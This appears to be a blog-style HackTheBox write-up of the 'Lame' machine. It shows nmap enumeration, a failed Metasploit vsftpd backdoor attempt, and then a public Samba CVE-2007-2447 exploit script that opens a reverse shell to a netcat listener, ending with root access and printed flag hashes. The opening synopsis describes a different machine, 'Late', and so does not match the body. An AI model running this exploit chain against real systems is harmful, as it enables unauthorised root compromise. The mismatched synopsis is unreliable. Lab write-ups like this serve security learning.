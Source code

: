 ```yaml
---
layout: post
title: HackTheBox Lame
date: 2017-03-14
tags: [HackTheBox, Linux] 
---
```


# Machine Synopsis

Late is an Easy Linux machine that features a Server Side Template Injection (SSTI) vulnerability in a text reading application, which leads to Remote Code Execution as user `svc_acc`. Enumeration for files owned by this user reveals a script that is executed whenever an SSH connection to the system is initiated or dropped. This script runs as the `root` user, however, enumeration of the file attributes show that it cannot be directly edited, but data can be appended. A reverse shell can be added at the end of this script in order to gain a shell as `root`. ([Source](https://www.hackthebox.com/machines/late))

# Enumeration
```bash
┌──(root💀Shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.0038s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: DD-WRT v24-sp1 (Linux 2.4.36) (92%), OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m46s, deviation: 2h49m45s, median: 44s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-05-07T23:22:44-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 22/tcp)
HOP RTT     ADDRESS
1   3.91 ms 10.10.14.1
2   3.92 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.30 seconds
```
It seems like there is a ftp port open. Let’s run `searchsploit` to find if there are any vulnerabilities for ```vsftpd 2.3.4```
```bash
┌──(root💀Shiro)-[/home/shiro/HackTheBox]
└─# searchsploit vsftpd 2.3.4                                             130 ⨯
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution     | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Me | unix/remote/17491.rb
---------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
Nice! There is an interesting exploit available. Let’s use this exploit in Metasploit.
# Exploitation
```bash
msf6 > search vsftpd 2.3.4
...
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set TARGET 0
TARGET => 0
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```
Unfortunately, this exploit does not work. Let’s move on to the next interesting open port `445` that is running `Samba smbd 3.0.20-Debian`.

A quick Google search showed that this version is vulnerable to CVE `2007-2447`.

Here is a [python script](https://github.com/amriunix/CVE-2007-2447) to exploit the vulnerability.

```bash
┌──(root💀Shiro)-[/home/shiro/HackTheBox/Lame/CVE-2007-2447]
└─# python3 usermap_script.py 10.10.10.3 445 10.10.14.3 1234
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !

┌──(shiro㉿Shiro)-[~/HackTheBox]
└─$ nc -nlvp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:34329.
cd /root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
cat root.txt
1958f8c5ebfa347cc8dc6b7c35a3b132
cd /home
ls
ftp
makis
service
user
cd makis/
ls
user.txt
cat user.txt 
a848bb4bcd8a9651138d9cfa73d4d16e
```

